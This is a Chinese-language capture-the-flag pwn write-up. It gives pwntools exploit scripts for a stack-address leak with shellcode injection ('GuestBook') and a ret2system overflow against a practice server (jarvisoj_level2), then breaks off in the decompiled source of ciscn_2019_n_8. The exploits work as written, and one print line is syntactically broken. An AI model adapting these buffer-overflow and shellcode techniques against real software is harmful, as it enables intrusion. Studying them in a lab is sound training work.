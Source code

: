 ### 泄露栈地址

```python
from pwn import *
p = process('./GuestBook')
#p = remote('xxxxxx',8888)
#gdb.attach(p)
elf = ELF('./GuestBook')
context(os="linux",arch="amd64",log_level='debug')
p.sendafter(b'name?',16*b'a')#将buf的栈空间填满，留下rbp
p.recvuntil(16*b'a')
data = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))#接收rbp的地址，读取到0x7f时，从数据最后一个元素开始，向左切6个元素（字节），再用0补充到切片结果的左侧，直到切片结果有8个字节（因为8字节地址很难全部都用到，所以基本上都是只使用6个字节
addr = data - 0x80#泄露的是上一个函数的rbp的地址，即main函数的rbp，gdb调试算出vuln()与main()的rbp相差0x10，而vuln()的rbp与v1相差0x70，故用main的rbp地址减去0x70+0x10，得到v1的入口地址
print("addr = "hex(addr))

shellcode = asm(shellcraft.sh())
payload = shellcode.ljust(0x78,b'\x00') + p64(addr)#先向v1写入shellcode，0x70+0x8=0x78,再返回到v1入口去执行shellcode
p.sendafter(b'strong',payload)
```

==思路就是泄露当前函数的rbp（有时候泄露的是上一个函数的rbp，上述代码就是），再算出rbp到变量的距离，从而找到变量的入口。==

==一般用于写入了shellcode但不知道当前变量的入口在哪里，此时就需要泄露栈地址了==

==上一个函数rbp的地址，作为数据被压入栈中，当前函数的rbp寄存器指向它==

### jarvisoj_level2

太简单了，附上exp：

```python

from pwn import*

p=remote('node3.buuoj.cn',17589)
shell_addr=0x804a024
system=0x8048320

payload=b'a'*(0x88+4)+p32(system)+p32(8)+p32(shell_addr)

p.sendline(payload)
p.interactive()
```

### ciscn_2019_n_8

题目：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp-14h] [ebp-20h]
  int v5; // [esp-10h] [ebp-1Ch]

  var[13] = 0;
  var[14] = 0;
  init();
  puts("What's your name?");
  __isoc99_scanf("%s", var, v4, v5);
  if ( *(_QWORD *)&var[13] )
  {
    if ( *(_QWORD *)&var[13] == 17LL )
      system("/bin/sh");
    else
```